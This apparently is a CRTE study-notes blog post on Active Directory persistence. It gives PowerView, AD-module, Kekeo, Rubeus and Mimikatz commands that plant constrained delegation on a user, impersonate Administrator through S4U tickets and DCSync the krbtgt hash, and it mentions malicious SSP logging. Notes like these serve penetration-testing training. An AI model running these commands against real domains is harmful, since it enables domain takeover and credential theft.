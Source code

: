 ```yaml
---
title: "3 - AD Persistence"
classes: single
header:  
  teaser: /assets/images/posts/crte/crte-teaser4.jpg
  overlay_image: /assets/images/main/header8.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Constrained Deleg and Malicious SSP"
description: "Constrained Deleg and Malicious SSP"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows
  - peristence 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>



# AD Persistence

Some content are similar to CRTP:

[AD Persistence - CRTP](https://MashrurRahmanRawnok.github.io/notes/crtp/domdom/)


## msDS-AllowedToDelegateTo (Constrained Delegation)

Note that the **msDS-AllowedToDelegateTo** is the user account flag which controls the services to which a user account has access to.

> This means, with enough privileges, it is possible to access any service from a user

- Enough privileges? – SeEnableDelegationPrivilege on the DC and full rights on the target user - default for Domain Admins and Enterprise Admins.
- That is, we can force set **Trusted to Authenticate for Delegation** and **ms-DS-AllowedToDelegateTo** on a user (or create a new user - which is more noisy) and abuse it later.

**Using PowerView**:
```powershell
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/dc.domain.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
Get-DomainUser –TrustedToAuth
```

**Using AD module**:
```powershell
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/dc.domain.local')} -Verbose
Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### Abuse using Kekeo
```powershell
kekeo# tgt::ask /user:devuser /domain:domain.local /password:Password@123!
kekeo# tgs::s4u /tgt:TGT_devuser@domain.local_krbtgt~us.techcorp.local@domain.local.kirbi /user:Administrator@domain.local /service:ldap/domain.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@domain.local_ldap~dc.domain.local@domain.local.kirbi"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

### Abuse using Rubeus:
```powershell
Rubeus.exe hash /password:Password@123! /user:devuser /domain:domain.local
Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/dc.domain.local /domain:domain.local /ptt
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

## Malicious SSP

- All local logons on the DC are logged to **C:\Windows\system32\kiwissp.log**

![Alt text](/assets/images/posts/crte/2.png){: .align-center}
